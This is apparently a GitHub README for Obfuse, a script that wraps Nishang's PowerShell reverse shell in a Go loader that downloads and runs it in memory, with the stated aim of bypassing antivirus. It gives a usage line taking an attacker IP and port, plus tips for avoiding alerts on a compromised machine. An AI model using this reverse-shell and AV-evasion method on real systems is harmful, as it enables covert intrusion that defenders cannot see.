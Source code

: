 ## What is Obfuse?
Obfuse is just a simple bash script that combines different methods into one executable, compiled with golang. It uses **Invoke-PowerShellTcp.ps1** from [Nishang](https://github.com/samratashok/nishang) for reverse connection which will be served with python http module, then it uses a compiled go binary which will download the script and execute it in memory. The purpose of Obfuse is to bypass AV.

## Requirements
- Metasploit Framework (msfconsole)
	- Available on the official repo **https://github.com/rapid7/metasploit-framework**
- Golang (GO)
	- You can install it by executing **apt-get install golang**
- Python (http server)
	- You can install it by executing **apt-get install python2 or python3**

## Usage
> $ ./obfuse.sh attacker_ip attacker_port

## Tips
Use the powershell method to download files if you already have access on the target machine because certutil might already be blocked and it might trigger an alert.

## ToDo
Choose between msfconsole or empire-cli__
Choose different payload delivery methods not only powershell

## Feedback and issues?
If you have any feedback, anything that you want to see implemented or if you're running into issues using Obfuse, please feel free to file an issue on [https://github.com/spenkk/obfuse/issues](https://github.com/spenkk/issues)
